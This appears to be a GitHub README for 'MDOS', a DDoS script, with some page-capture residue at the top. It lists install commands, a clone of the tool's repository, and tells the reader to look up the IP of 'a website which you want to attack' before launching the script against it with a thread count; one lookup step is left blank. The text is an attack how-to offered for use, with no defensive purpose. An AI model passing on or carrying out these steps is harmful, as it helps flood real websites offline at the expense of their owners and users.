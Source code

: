 #MDOS 


$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/Mysterious-71/MDOS
MDOS need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <br>
Note the IP Address of that Website<br>

then <br>
$ cd MDOS<br>
$ python mysterious_71_ddos.py -s [ip Address] -t 135<br>
example:<br>
$ python mysterious_71_ddos.py -s 123.45.67.89 -t 135<br>

